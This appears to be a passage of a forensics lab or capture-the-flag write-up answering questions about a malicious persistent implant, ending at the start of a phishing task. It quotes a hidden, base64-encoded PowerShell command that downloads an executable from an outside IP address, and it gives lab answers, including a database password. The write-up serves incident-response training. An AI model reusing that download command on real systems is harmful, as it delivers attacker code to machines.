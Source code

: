 ![image](https://github.com/user-attachments/assets/850a48e3-81a8-415b-842e-214a35caf57a)


```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -windowstyle hidden -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcAB
```

<h3>AppCompatCache</h3>

![image](https://github.com/user-attachments/assets/36af42bf-2868-4ab9-9ff2-f51b44369d5b)

<h3>Timeline Explorer</h3>

![image](https://github.com/user-attachments/assets/8e54c231-8aae-4350-ab2e-f6b4bea8dcf8)

![image](https://github.com/user-attachments/assets/175885ed-1b84-458c-bf48-163106982405)

![image](https://github.com/user-attachments/assets/63415727-bce5-4c4a-958a-dfef2d2af79b)

<br>

<p>2.3. <em>When was the malicious persistent implant created? (format: MM/DD/YYYY HH:MM:SS)</em><br>
<code>03/24/2024 19:16:23</code></p>

![image](https://github.com/user-attachments/assets/49c6d859-4e20-4dce-b75f-428e29d21223)

![image](https://github.com/user-attachments/assets/11979f7c-3f21-462b-ba5b-7868c8abb538)

<p>:-(</p>

![image](https://github.com/user-attachments/assets/0cf4070e-7de8-44c9-9822-15e284fabe13)

<br>

<p>2.4. <em>What is the domain accessed by the malicious implant? (format: defanged)</em><br>
<code>advancedsolutions[.]net</code></p>

![image](https://github.com/user-attachments/assets/1ff661ff-15ff-4788-aeea-5d7754f578a6)

<br>

<p>2.5. <em>What file did the attacker leverage to gain access to the database server? Provide the password found in the file.</em><br>
<code>db@dm1ns3cur3Pass!</code></p>

![image](https://github.com/user-attachments/assets/9792e98c-f5f4-413e-83a6-5f9b01e69b6c)

![image](https://github.com/user-attachments/assets/bc0c1c0c-ac83-4e55-bfcf-f6d5139854fa)

<br>


<h2>Task 3 . Initial Access: Discovering the Root Cause</h2>
<h3>Scenario</h3>
<p>The investigation pivoted to a workstation belonging to a user suspected of sending an internal phishing attack after discovering that this malicious activity compromised an IT employee's workstation. The primary aim is to uncover how the sender's Office 365 (O365) account was compromised, initiating the phishing attack.</p>
